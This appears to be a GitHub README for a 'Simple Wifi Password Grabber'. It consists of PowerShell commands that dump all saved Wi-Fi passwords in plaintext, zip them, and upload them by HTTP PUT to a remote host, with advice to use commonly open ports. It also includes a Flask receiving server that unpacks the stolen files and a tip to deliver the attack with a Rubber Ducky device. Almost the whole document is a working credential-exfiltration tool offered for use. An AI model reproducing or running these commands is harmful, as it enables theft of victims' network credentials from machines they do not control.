 # Simple Wifi Password Grabber #
#### ↓ PowerShell command to get all saved passwords in system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this will export all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all the XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send the zipfile via Http PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain, IP or localhost]:[port]/wpg/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in firewall, for example `80`._
### Run this python code as a server ###
This code handle the zipfile and extract `XML` files into `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Ducky for better usage
